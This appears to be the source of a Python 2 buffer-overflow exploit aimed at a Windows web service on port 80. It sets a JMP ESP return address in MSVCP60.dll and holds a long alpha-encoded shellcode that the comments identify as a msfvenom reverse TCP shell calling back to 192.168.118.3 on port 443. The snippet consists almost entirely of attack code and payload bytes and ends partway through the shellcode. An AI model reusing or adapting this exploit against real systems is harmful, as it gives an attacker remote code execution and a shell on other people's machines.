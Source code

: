 ```python
try:
   HOST  = sys.argv[1]
except IndexError:
   print "Usage: %s HOST" % sys.argv[0]
   sys.exit()

PORT  = 80
RET   = "\xCF\xBC\x08\x76" # 7608BCCF JMP ESP MSVCP60.dll

# [*] Using Msf::Encoder::PexAlphaNum with final size of 709 bytes:
# [*] msfvenom -p windows/shell_reverse_tcp -f exe --platform windows -a x86 -e x86/alpha_mixed -f c -b "\x00\x3a\x26\x3f\x25\x23\x20\x0a\x0d\x2f\x2b\x0b\x5c\x3d\x3b\x2d\x2c\x2e\x24\x25\x1a" LHOST=192.168.118.3 LPORT=443
# badchar = "\x00\x3a\x26\x3f\x25\x23\x20\x0a\x0d\x2f\x2b\x0b\x5c\x3d\x3b\x2d\x2c\x2e\x24\x25\x1a"
SHELL = (
"n00bn00b"
"\x89\xe6\xdb\xdd\xd9\x76\xf4\x5e\x56\x59\x49\x49\x49\x49\x49"
"\x49\x49\x49\x49\x49\x43\x43\x43\x43\x43\x43\x37\x51\x5a\x6a"
"\x41\x58\x50\x30\x41\x30\x41\x6b\x41\x41\x51\x32\x41\x42\x32"
"\x42\x42\x30\x42\x42\x41\x42\x58\x50\x38\x41\x42\x75\x4a\x49"
"\x59\x6c\x58\x68\x4f\x72\x55\x50\x77\x70\x75\x50\x31\x70\x4f"
"\x79\x59\x75\x46\x51\x6f\x30\x33\x54\x4c\x4b\x50\x50\x46\x50"
"\x6e\x6b\x56\x32\x64\x4c\x4e\x6b\x43\x62\x66\x74\x4c\x4b\x44"
"\x32\x74\x68\x56\x6f\x48\x37\x43\x7a\x77\x56\x65\x61\x6b\x4f"
"\x6e\x4c\x57\x4c\x73\x51\x53\x4c\x36\x62\x36\x4c\x65\x70\x5a"
"\x61\x7a\x6f\x34\x4d\x33\x31\x6a\x67\x39\x72\x38\x72\x30\x52"
"\x76\x37\x6c\x4b\x71\x42\x62\x30\x6e\x6b\x51\x5a\x35\x6c\x4e"
"\x6b\x42\x6c\x62\x31\x43\x48\x7a\x43\x47\x38\x46\x61\x5a\x71"
"\x36\x31\x4c\x4b\x30\x59\x65\x70\x37\x71\x58\x53\x6e\x6b\x72"
"\x69\x62\x38\x58\x63\x36\x5a\x52\x69\x4e\x6b\x57\x44\x4e\x6b"
"\x66\x61\x79\x46\x74\x71\x69\x6f\x4e\x4c\x4a\x61\x48\x4f\x74"
"\x4d\x46\x61\x68\x47\x30\x38\x4b\x50\x44\x35\x58\x76\x43\x33"
"\x71\x6d\x49\x68\x75\x6b\x31\x6d\x34\x64\x51\x65\x4a\x44\x30"
"\x58\x6c\x4b\x31\x48\x34\x64\x63\x31\x38\x53\x42\x46\x6c\x4b"
"\x44\x4c\x62\x6b\x6c\x4b\x52\x78\x67\x6c\x77\x71\x6b\x63\x6e"
"\x6b\x53\x34\x4e\x6b\x43\x31\x78\x50\x6e\x69\x63\x74\x31\x34"
"\x57\x54\x61\x4b\x31\x4b\x35\x31\x71\x49\x53\x6a\x43\x61\x6b"
"\x4f\x4b\x50\x71\x4f\x53\x6f\x62\x7a\x6e\x6b\x67\x62\x58\x6b"
"\x6e\x6d\x73\x6d\x63\x58\x65\x63\x55\x62\x75\x50\x47\x70\x63"
"\x58\x31\x67\x74\x33\x70\x32\x51\x4f\x72\x74\x52\x48\x30\x4c"
"\x33\x47\x55\x76\x56\x67\x69\x6f\x68\x55\x4f\x48\x6c\x50\x37"
"\x71\x57\x70\x73\x30\x64\x69\x68\x44\x51\x44\x36\x30\x61\x78"
"\x65\x79\x6b\x30\x42\x4b\x55\x50\x69\x6f\x59\x45\x52\x70\x52"
"\x70\x32\x70\x50\x50\x73\x70\x72\x70\x67\x30\x46\x30\x31\x78"
"\x59\x7a\x76\x6f\x4b\x6f\x59\x70\x39\x6f\x49\x45\x7a\x37\x31"
"\x7a\x55\x55\x75\x38\x4b\x70\x4d\x78\x73\x46\x63\x33\x45\x38"
"\x44\x42\x35\x50\x75\x51\x6f\x4b\x6b\x39\x4a\x46\x53\x5a\x54"
"\x50\x30\x56\x76\x37\x31\x78\x6e\x79\x6c\x65\x54\x34\x53\x51"
"\x49\x6f\x58\x55\x4c\x45\x59\x50\x54\x34\x64\x4c\x6b\x4f\x70"
"\x4e\x36\x68\x34\x35\x38\x6c\x73\x58\x4c\x30\x6f\x45\x4c\x62"
"\x76\x36\x4b\x4f\x38\x55\x73\x58\x31\x73\x50\x6d\x30\x64\x63"
"\x30\x6f\x79\x39\x73\x53\x67\x76\x37\x76\x37\x35\x61\x6c\x36"
"\x43\x5a\x74\x52\x51\x49\x52\x76\x78\x62\x79\x6d\x71\x76\x39"
"\x57\x70\x44\x71\x34\x75\x6c\x67\x71\x67\x71\x4c\x4d\x31\x54"
"\x34\x64\x46\x70\x6f\x36\x57\x70\x37\x34\x61\x44\x32\x70\x43"
"\x66\x51\x46\x33\x66\x42\x66\x51\x46\x62\x6e\x31\x46\x76\x36"
"\x50\x53\x76\x36\x42\x48\x54\x39\x7a\x6c\x65\x6f\x6c\x46\x49"
"\x6f\x78\x55\x4d\x59\x6b\x50\x50\x4e\x30\x56\x61\x56\x79\x6f"
"\x46\x50\x65\x38\x73\x38\x4b\x37\x37\x6d\x63\x50\x39\x6f\x69"
"\x45\x6d\x6b\x38\x70\x6e\x55\x4c\x62\x33\x66\x72\x48\x69\x36"
"\x4c\x55\x4f\x4d\x4d\x4d\x69\x6f\x68\x55\x65\x6c\x55\x56\x73"
"\x4c\x76\x6a\x4d\x50\x49\x6b\x49\x70\x33\x45\x53\x35\x4f\x4b"
"\x67\x37\x75\x43\x64\x32\x42\x4f\x71\x7a\x37\x70\x50\x53\x59"
```